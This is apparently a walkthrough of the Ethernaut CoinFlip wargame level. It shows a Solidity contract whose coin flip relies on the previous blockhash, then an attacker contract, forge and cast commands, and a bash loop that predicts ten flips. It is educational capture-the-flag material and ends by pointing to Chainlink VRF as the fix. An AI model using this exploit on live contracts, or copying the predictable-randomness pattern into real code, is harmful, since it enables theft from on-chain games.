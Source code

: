 ## CoinFlip Level Outline

**Difficulty : 3/10**

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution
Because the flip is calculated onchain using the previous blockhash, we can predict what the outcome will be by simulating the coinflip on our custom smart contract and submitting the result.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import 'openzeppelin-contracts/contracts/utils/math/SafeMath.sol';

contract FortuneTeller {
    using SafeMath for uint256;
    CoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlip) {
        coinFlip = CoinFlip(_coinFlip);
    }

    function predictFuture() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        bool prediction = blockValue.div(FACTOR) == 1 ? true : false;

        coinFlip.flip(prediction);
    }
}

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:FortuneTeller --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Create a simple bashscript to flip the coin 10 times
```console
touch flip.sh
```
add the following bash script to `flip.sh`
```bash
#!/bin/bash
for i in {1..10}
do
    cast send $DEPLOYED_ADDRESS "predictFuture()" --gas 80000 --private-key $PRIVATE_KEY
    sleep 20s
    echo Correct Flips : $i
done
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Run `flip.sh`
```console
chmod 777 flip.sh
./flip.sh
```

## Further Reading
How to avoid generating numbers onchain by using [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number)


---

##### [:arrow_left: Back To Main Menu](../README.md)
